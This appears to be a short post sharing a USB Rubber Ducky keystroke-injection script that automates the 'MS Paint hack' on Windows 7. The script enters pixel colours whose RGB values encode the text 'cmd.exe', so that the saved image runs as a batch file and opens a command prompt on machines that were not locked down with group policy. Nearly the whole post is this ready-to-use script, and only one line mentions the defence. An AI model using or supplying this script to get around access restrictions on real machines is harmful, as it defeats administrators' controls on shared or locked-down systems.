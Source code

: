 The following is some duck script I made for easily setting up the MS Paint hack from way back in episode 925. Machines secured correctly with group policies are not susceptible to this attack. You are still required to save the file correctly, and input the colors in the correct order, but they should already be in the correct order in the custom color box. The setup script can only work for Windows 7, because Windows Vista's paint app messes up the input.

```
REM by overwraith
REM PAINTHACK_WINDOWS7 BEGINS
REM MSPAINT hack revealed by "Operator"
CONTROL ESCAPE
DELAY 200
STRING mspaint
ENTER
DELAY 1000
CTRL E
STRING 6
TAB
STRING 1
ENTER
CTRL PAGEUP
REPEAT 5
REM ****FIRST COLOR****
ALT H
STRING EC
ALT R
STRING 10
TAB
STRING 0
TAB
STRING 0
ENTER
REM ****SECOND COLOR****
ALT H
STRING EC
ALT R
STRING 13
TAB
STRING 10
TAB
STRING 13
ENTER
REM ****THIRD COLOR****
ALT H
STRING EC
ALT R
STRING 100
TAB
STRING 109
TAB
STRING 99
ENTER
REM ****FOURTH COLOR****
ALT H
STRING EC
ALT R
STRING 120
TAB
STRING 101
TAB
STRING 46
ENTER
REM ****FIFTH COLOR****
ALT H
STRING EC
ALT R
STRING 0
TAB
STRING 0
TAB
STRING 101
ENTER
REM ****SIXTH COLOR****
ALT H
STRING EC
ALT R
STRING 0
TAB
STRING 0
TAB
STRING 0
ENTER
```